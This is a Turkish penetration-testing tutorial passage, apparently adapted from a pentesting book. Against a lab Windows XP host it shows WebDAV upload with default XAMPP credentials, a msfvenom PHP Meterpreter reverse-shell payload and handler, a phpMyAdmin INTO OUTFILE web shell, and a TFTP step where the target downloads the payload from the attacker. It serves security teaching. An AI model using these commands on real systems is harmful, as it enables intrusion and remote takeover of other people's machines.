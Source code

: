 ### Exploitation

Tüm hazırlık çalışmalarımızdan sonra, zevkli bir bölüme gelmiş bulunmaktayız: _exploitation_. Bu bölümde bulmuş olduğumuz açıklardan sızma yapmayı deneyeceğiz.

#### WebDAV Varsayılan Kimliğinden Sızma

Hatırlıyorsanız önceki bölümlerde Windows XP sistemimizde bulunan XAMPP kurulumu WebDAV erişimi için varsayılan değerleri kullandığı öğrenmiştik. Bundan faydalanarak web sunucusuna Cadaver ile dosya yükleyebiliriz. Denememiz için basit bir dosya oluşturalım:

```ShellSession
root@kali:~# cat test.txt
test
```

Şimdi Cadaver'i kullanarak _wampp:xampp_ kimliği ile giriş yapacağız:

```ShellSession
root@kali:~# cadaver http://192.168.20.10/webdav
Authentication required for XAMPP with WebDAV on server `192.168.20.10': Username: wampp
Password:
dav:/webdav/>
```

Son olarak, _test.txt_ dosyasını yüklemek için WebDAV'ın `put` komutu kullanıyoruz.

```ShellSession
dav:/webdav/> put test.txt
Uploading test.txt to `/webdav/test.txt':
Progress: [=============================>] 100.0% of 5 bytes succeeded. 
dav:/webdav/>
```

Eğerde /webdav/test.txt adresine gidersek, dosyamızın sunucuya başarıyla yüklendiğini göreceğiz.

##### Hedefimizdeki Web Sunucusunda Script Çalıştırma

Yüklemiş olduğumuz text dosyası pek işimize yaramaz; onun yerine web sunucusuna script dosyasını yükleyip onu nasıl çalıştırılacağına bir bakalım. Eğer Apache sunucusu bir sistem yazılımı olarak kurulduysa, ozaman sistem taraflı bir yetki; değilse de Apache sunucusunu başlatan kimsenin yetkisiyle çalışacaktır. Her iki durumda da sunucuya script dosyamızı yüklememiz yeterli olacaktır. Bunun için bir PHP dosyası oluşturup sunucuya atalım. 

```ShellSession
dav:/webdav/> put test.php
Uploading test.php to `/webdav/test.php':
Progress: [=============================>] 100.0% of 5 bytes succeeded. 
dav:/webdav/>
```

##### Msfvenom Payload Yükleme

Direkt olarak PHP dosyalarını yükleme işlemine ek olarak, Msfvenom kullanarak sunucuya yükleme yapma amaçlı Metasploit payload'ını yaratabiliriz. İlk önce `-l` değerini vererek PHP payload listesine bir göz atalım

```ShellSession
root@kali:~# msfvenom -l payloads 
#1  php/bind_perl               Listen for a connection and spawn a command
                                    shell via perl (persistent)
    php/bind_perl_ipv6          Listen for a connection and spawn a command
                                    shell via perl (persistent) over IPv6
    php/bind_php                Listen for a connection and spawn a command
                                    shell via php
    php/bind_php_ipv6           Listen for a connection and spawn a command
                                    shell via php (IPv6)
#2  php/download_exec           Download an EXE from an HTTP URL and execute it
    php/exec                    Execute a single system command
#3  php/meterpreter/bind_tcp    Listen for a connection over IPv6, Run a
                                    meterpreter server in PHP
    php/meterpreter/reverse_tcp Reverse PHP connect back stager with checks
                                    for disabled functions, Run a meterpreter
                                    server in PHP
    php/meterpreter_reverse_tcp Connect back to attacker and spawn a
                                    Meterpreter server (PHP)
    php/reverse_perl            Creates an interactive shell via perl
    php/reverse_php             Reverse PHP connect back shell with checks
                                    for disabled functions
    php/shell_findsock
```

Msfvenom bize birkaç seçenek sunmakta: 1. Shell yaratma, 2. Dosyayı indirme ve sistemimizde çalıştırabilme, 3. Meterpreter kullanma. Bunların herhangi birini kullanarak sistemi kontrol altına alabiliriz, ama burda _php/meterpreter/reverse_tcp_ kullanalım. Payload'mızı belirledikten sonra, `-o` değeri ile kullanacabileceğimiz seçenekleri bulabiliriz:

```ShellSession
root@kali:~# msfvenom -p php/meterpreter/reverse_tcp -o 
[*] Options for payload/php/meterpreter/reverse_tcp

--snip--
Name    Current Setting  Required    Description
----    ---------------  --------    -----------
LHOST                    yes        The listen address 
LPORT   4444             yes        The listen port
```

Gördüğnüz gibi _LHOST_ ile hangi IP adresine _LPORT_ hangi porta bağlanacağını gösterebiliriz. Bu payload zaten PHP formatında olduğu için `-f` değeri ile asıl (raw) haliyle çıktı alınmasını söyleriz. 

```ShellSession
root@kali:~# msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.20.9 LPORT=2323 -f raw > meterpreter.php
```

Sonrasında ise WebDAV kullanarak yüklüyoruz.

```ShellSession
dav:/webdav/> put meterpreter.php
Uploading meterpreter.php to `/webdav/meterpreter.php':
Progress: [=============================>] 100.0% of 1317 bytes succeeded.
```

Scripti çalıştırmadan önce Msfconsole ayarını yapmamız gerekir: 

```ShellSession
msf > use multi/handler
msf exploit(handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.20.9
lhost => 192.168.20.9
msf exploit(handler) > set LPORT 2323
lport => 2323
msf exploit(handler) > exploit
[*] Started reverse handler on 192.168.20.9:2323
[*] Starting the payload handler...
```

Web tarayıcısında yüklemiş olduğumuz payload çalıştırdığımızda Meterpreter oturumu açlır ve Msfconsole ekranında:

```ShellSession
[*] Sending stage (39217 bytes) to 192.168.20.10
[*] Meterpreter session 2 opened (192.168.20.9:2323 -> 192.168.20.10:1301) at
2015-01-07 17:27:44 -0500
meterpreter >
```

Meterpreter komutu olan `getuid` ile açtığımız oturumun sızdığımız makinede yetkisini öğrenebiliriz. Genel olarak sızdığımız uygulamanın yetkisini almış oluyoruz

```ShellSession
meterpreter > getuid 
BOOKXP\SYSTEM
```

Şimdi bizim sistem yetkimiz var, yani bu Windows sistemini ful kontrol altına almak demektir. 

#### Açık phpMyAdmin'e Sızma

Aynı hedefimizde açık phpMyAdmin kurulumu olduğunu da biliyoruz, bu bize veritabanı sunucusunda komutları çalıştırmaya yardımcı olacaktır. Apache gibi MySQL sunucusunda da ya sistem yetkisi ya da çalıştıran kişinin yetkisi vardır. WebDAV de olduğu gibi dosyaları yükleyebilir, sunucuda MySQL sorgularını çalıştırabiliriz.

İlk önce http://192.168.2.10/phpmyadmin adresine gidelim, ve üst kısımda bulunan SQL sekmesini açalım. Remote shell ulaşmak için web sunucusuna MySQL scriptlerini yazacağız. Uzaktan sistemi kontrol etmek için SQL SELECT komutunun çıktısını PHP dosyalarına alacağız.

XAMPP Apache varsayılan olarak Windows sistemlerinde C:\xampp\htdocs\ dizininde bulunmakta. Yazacağımız komut  `SELECT <script metni> INTO OUTFILE web_sunucusu_dizini` şeklinde olacaktır:

```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\shell.php"
```

![PhpMyAdmin](../resim/ataklar/exploit/phpmyadmin.png)

Tamamlamış halini phpMyAmin panelinde çalıştıralım ve http://192.168.2.10/shell.php adresine giderek yeni oluşturduğumuz dosyayı açalım. Bu script 

```
Warning: system() [function.system]: Cannot execute a blank command in C:\ xampp\htdocs\shell.php on line 1
```

hatasını verecektir. `cmd` parametresi için hedefimizdeki sistemde hangi komutu çalıştırmak istediğmize dair bir değer vermemiz lazım. Örnek olarak, Windows XP sisteminde parametre olarak `ipconfig` atayalım.

```ShellSession
http://192.168.20.10/shell.php?cmd=ipconfig
```

Sonuç aşağıdaki gibi:
![Con](../resim/ataklar/exploit/conn.png)

##### TFTP ile Dosya İndirme

Kali sistemizde dosyaları barındırmak için Atftpd TFTP sunucusunu kullanabiliriz. Atftpd daemon modunda başlatalım, _meterpreter.php_ scirptinin olduğu yerden

```ShellSession
root@kali:~# atftpd --daemon --bind-address 192.168.20.9 /tmp
```

`cmd` parametresi olarak _shell.php` scriptini atayalım

```
http://192.168.20.10/shell.php?cmd=tftp 192.168.20.9 get meterpreter.php
C:\\xampp\\htdocs\\meterpreter.php
```

Bu komut hedemizdeki Apache sunucusuna TFTP yardımıyla _meterpreter.php_ dosyasını çeker. Sonuç olarak `Transfer successful: 1373 bytes in 1 second, 1373 byte/s`

Şimdi biz http://192.168.2.10/meterpreter.php adresine giderek Meterpreter shell'ini açabiliriz. 

#### Üçüncü Taraf Yazılımlarda Arabellek Taşma Sızması

_Exploiting a Buffer Overflow in Third-Party Software_; Windows makinemizde bulunan SLMail sunucusuna POP3'ün CVE-2003-0264 sorunu ile sızma yapabileceğimize dair önceki bölümlerde de tam net cevap bulamamıştık. SLMail 5.5 sürümünün güvenlik zaafiyeti olduğunu görüyoruz. Metasploit'in _windows/pop3/seattlelab_pass_ modülünü kullanarak POP3 sunucusunda arabellek taşmasına sızma yapmayı deneyeceğiz

![Buffer Overflow](../resim/ataklar/exploit/buffer.png)

* Exploiting Open phpMyAdmin
    * Downloading a File with TFTP
* Downloading Sensitive Files
    * Downloading a Configuration File
    * Downloading the Windows SAM
* Exploiting a Buffer Overflow in Third-Party Software
* Exploiting Third-Party Web Applications






